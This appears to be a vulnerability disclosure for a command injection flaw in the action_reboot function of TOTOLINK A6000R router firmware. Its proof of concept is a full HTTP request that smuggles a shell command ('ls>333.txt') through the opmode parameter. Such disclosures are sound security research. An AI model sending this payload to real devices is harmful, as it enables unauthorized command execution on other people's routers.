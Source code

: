 # TOTOLINK A6000R V1.0.1-B20201211.2000 Command Injection (action_reboot)

## Product Information

- Device: TOTOlink A6000R
- Firmware Version: V1.0.1-B20201211.2000
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/202/ids/36.html

![](.//1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/admin/system.lua` file, there is a **command injection vulnerability** in the `action_reboot` function via the `opmode` parameter.

![](.//2.png)

Entry: `/admin/system/reboot?opmode=`

![](.//3.png)



## Payload

We can trigger this vulnerability by injecting the `ls>333.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/system/reboot?opmode=';ls>333.txt;' HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=866791d2d6acb92c0a96268cb255aa80


```

![](.//4.png)



After the injection, we can verify the result.

![](.//5.png)

